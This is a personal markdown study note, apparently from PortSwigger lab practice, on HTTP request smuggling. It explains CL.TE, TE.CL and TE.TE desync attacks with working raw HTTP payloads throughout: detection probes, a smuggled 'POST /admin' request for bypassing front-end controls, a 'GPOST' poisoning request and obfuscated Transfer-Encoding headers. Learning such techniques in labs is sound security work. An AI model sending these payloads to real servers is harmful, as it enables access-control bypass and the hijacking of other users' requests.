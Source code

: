 ## https request smuggle 
- Everything is there to test in first image.
![Detect](<../images/content-smuggle/confirm logic.png>) 
- Frontend WAF can be bypassed using smuggling.
- For doing exploit, where the backend uses TE then uses 0 for first chunk so that next thing is smuggled payload
  ```
  Content-Length: 65
  Transfer-encoding: chunked

  0

  POST /admin HTTP/1.1
  Content-Length: 14
  HOST: localhost
  X
  ``` 
- While appending the smuggled payload, have the header name added as value, not in the key of header`X: X`
- Send the thing twice to remove if duplicate header problem is coming
- In `Transfer-Encoding: chunked`, number of bytes are given in hex

TODO: https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl 
Complete the rest : https://portswigger.net/web-security/request-smuggling/exploiting
### How to find
- Downgrade the request to http1.1 and make POST request using right-click dropdown
- Enable carriage return in request
- Get this request working and then only proceed to next step
#### CL.TE 
##### Detect
- Check if `CL.TE` is present ![CL.TE Differntial response](../images/content-smuggle/CL.TE.png)
- Confirm payload
    ```
    POST / HTTP/1.1
    Host: vulnerable-website.com
    Transfer-Encoding: chunked
    Content-Length: 6
    Connection: keep-alive

    0
    
    X
    ```
- Since the front-end server uses the Content-Length header, it will forward only part of this request, omitting the X. The back-end server uses the Transfer-Encoding header, processes the first chunk, and then waits for the next chunk to arrive. This will cause an observable time delay. 
- The below is for utilising the smuggle to add header.
    ```
    POST / HTTP/1.1
    HOST: 89.207.132.170
    Connection: keep-alive
    Content-Length: 6
    Content-Type: application/x-www-form-urlencoded
    Transfer-Encoding: chunked
    \r\n
    0\r\n\
    \r\n\
    X-Ignore: X
    ```
  - remove extra `\r\n\` which is due to copy paste
  - Fist disable the update header content length to check if this is succeptilbe and then enable it to smuggle the request
  - Mind that there is no `\r\n\` after `X-Ignore: X` because next get request will be in new line if added
##### Poison
Use the subsequent payload with extra G and full content-length so that poisoning could occur

#### TE.CT
- Detect what Frontend and backend is using: 
  - Frontend:
      TE if request is invalid/rejected
      ```
      Transfer-Encoding: chunked
      Content-Length: 6
      Connection: keep-alive

      3
      abc
      X
      ```
  - Backend:
      ![TE-CL Detect](../images/content-smuggle/TE.CL-detect.png) TE if request is timed out 
      ```
      Transfer-Encoding: chunked
      Content-Length: 6
      Connection: keep-alive

      0
      
      X
      ```
- Confirm the request using the payload in the form of 2 request:![Confirm payload](../images/content-smuggle/confirm-payload.png) 
  a. Attack request (see the specific section for the payload)
  b. Normal request
    ```
    POST / HTTP/1.1
    HOST: 89.207.132.170
    Connection: keep-alive
    Content-Length: 60
    Content-Type: application/x-www-form-urlencoded
    Transfer-Encoding: chunked
    
    1
    x
    0
    
    ```
![TE.CL](../images/content-smuggle/TE.CL.png)
- Differential attack method
  - Attach request (contains posioning payload)
  - Normal request (normal request)


### Theory
  - Always done in POST request not GET request
  - works in http1.1 ( does not close connection with every request, but if you want to close it then connection: close)
    - http pipeline which is stack queue of request
  - clrf \r\n`` means new line
  - `Content-Length`: length of context body in first line and then next line gives the content length of the next line
    e.g. 
    ```
    
    GET / HTTP/1.1
    Content-Length: 7
    \r\n
    apple\r\n\
    ```
  - `Transfer-Encoding: chunked`: it looks for `\r\n\` to know the end of the content body
    e.g. 
    ```
    GET / HTTP/1.1 \r\n\
    Transfer-Encoding: chunked\r\n\
    \r\n\
    1\r\n\
    a\r\n\
    6\r\n\
    hello\r\n\
    2\r\n\
    hi\r\n\
    \r\n\
    ```
  - what if both are given `Content-Length` and `Transfer-Encoding` then `Content-Length` will be ignored in http1.1
  - We have Frontend server(e.g. loadbalancer: ngrok) and Backend server(e.g. service). If multiple requests are done then all of them is joined in a single TCP connection using http pipelining.
    - ![step1](../images/content-smuggle/smuggle-0.png)
    - ![step2](../images/content-smuggle/smuggle-1.png)
    - ![step3](../images/content-smuggle/smuggle-2.png)
  - Poisoned `CL.TE` means if both are present then CL will be ignored 
  - Similarly `TE.CT` means if both are present then TE will be ignored
  - Similary `TE.TE` means if both are present then TE will be checked


### TE.TE
We can same header with little bit of obfuscated values and then smuggle the request. There is one header which will be correct and it will be removed from header when it reaches to backend. If the bad header is reached to backend with distorted header and it will lead the backend to use `Context-length` header instead of `Transfer-Encoding` header.
![TE obfuscation](../images/content-smuggle/TE.TE.png)
```
Transfer-Encoding: xchunked
Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```


Miscellaneous
![Count bytes](../images/content-smuggle/misc.png)
- Always write the hex bytes into the count
- TE.TE
  ```
    
  Transfer-encoding: chunked
  Transfer-encoding: xchunked
  Content-Length: 4

  25
  GPOST / HTTP/1.1
  Content-Length: 6

  0

  ```
